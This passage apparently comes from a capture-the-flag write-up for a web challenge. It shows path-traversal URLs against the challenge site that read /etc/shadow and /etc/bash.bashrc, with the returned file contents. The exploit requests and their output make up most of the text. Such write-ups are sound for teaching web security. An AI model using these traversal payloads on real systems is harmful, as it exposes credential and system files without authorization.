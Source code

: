 {% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fetc%2Fshadow

root:*:17324:0:99999:7:::
daemon:*:17324:0:99999:7:::
bin:*:17324:0:99999:7:::
sys:*:17324:0:99999:7:::
sync:*:17324:0:99999:7:::
games:*:17324:0:99999:7:::
man:*:17324:0:99999:7:::
lp:*:17324:0:99999:7:::
mail:*:17324:0:99999:7:::
news:*:17324:0:99999:7:::
uucp:*:17324:0:99999:7:::
proxy:*:17324:0:99999:7:::
www-data:*:17324:0:99999:7:::
backup:*:17324:0:99999:7:::
list:*:17324:0:99999:7:::
irc:*:17324:0:99999:7:::
gnats:*:17324:0:99999:7:::
nobody:*:17324:0:99999:7:::
systemd-timesync:*:17324:0:99999:7:::
systemd-network:*:17324:0:99999:7:::
systemd-resolve:*:17324:0:99999:7:::
systemd-bus-proxy:*:17324:0:99999:7:::
{% endhighlight %}

<p>But this didn't work out. We have to keep looking further, maybe in the <b>.bashrc</b>? Any clues? </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fetc%2Fbash.bashrc

# System-wide .bashrc file for interactive bash(1) shells.

# To enable the settings / commands in this file for login shells as well,
# this file has to be sourced in /etc/profile.

# If not running interactively, don't do anything
[ -z "$PS1" ] && return

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi

# set a fancy prompt (non-color, overwrite the one in /etc/profile)
